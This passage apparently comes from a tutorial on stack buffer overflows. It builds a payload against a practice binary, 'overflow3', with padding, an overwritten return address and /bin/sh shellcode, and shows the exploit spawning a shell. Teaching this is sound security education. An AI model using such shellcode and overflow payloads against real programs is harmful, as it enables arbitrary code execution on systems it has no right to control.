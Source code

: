 
Using this address, we craft our input as follows:
First we fill the buffer with `B`s, then we overwrite the return address with (in this case) `0x7fffffffd770 + 0x30`, and finally we write the shellcode.
Here `0x30` is the offset of the shellcode in the buffer.
```
python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')"
```

When we feed this into `overflow3`, nothing visible happens:
```
$ python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')" | setarch $(uname -m) -R ./overflow3 
name is located at 0x7fffffffd770
Please enter your name: Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB ×ÿÿÿ!
```
This is because a shell is spawned and immediately closed because the input stream is already closed.
To prevent this, we can use a little trick and run the exploit as follows and can execute arbitrary shell commands:
```
(python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')"; cat) | setarch $(uname -m) -R ./overflow3
echo "Success!" # <- this and the following commands are executed by the newly spawned shell
Success!
whoami
lennart
```

<details><summary>Another example of a shellcode</summary></details>






